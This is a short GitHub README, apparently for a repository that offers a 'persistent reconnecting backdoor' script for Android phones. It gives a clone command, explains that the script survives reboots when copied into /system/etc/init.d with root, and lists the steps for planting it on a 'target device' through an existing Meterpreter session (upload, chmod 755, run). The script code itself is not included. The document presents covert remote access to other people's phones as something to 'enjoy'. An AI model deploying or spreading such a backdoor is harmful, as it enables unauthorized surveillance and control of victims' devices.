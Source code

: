 # My persistant android backdoor

## Installation
```
git clone https://github.com/derosploit/android-persistant.sh/
```
## Description
This scripts creates a persistent reconnecting backdoor on android phones  
when run this script is active until reboot on non-rooted devices
To make it persistent on reboot  
copy the persistant.sh in the /system/etc/init.d folder N.B this requires root permission on device
## Implementation
This script is implemented using for metersploit
## Requirements
a running meterpreter session on target device
## Usage
upload the script in the device and enjoy

Assume this is our meterpreter session  
meterpreter> upload persistent.sh  
meterpreter> shell   
chmod 755 persistent.sh  
./persistent.sh  
##Enjoy!

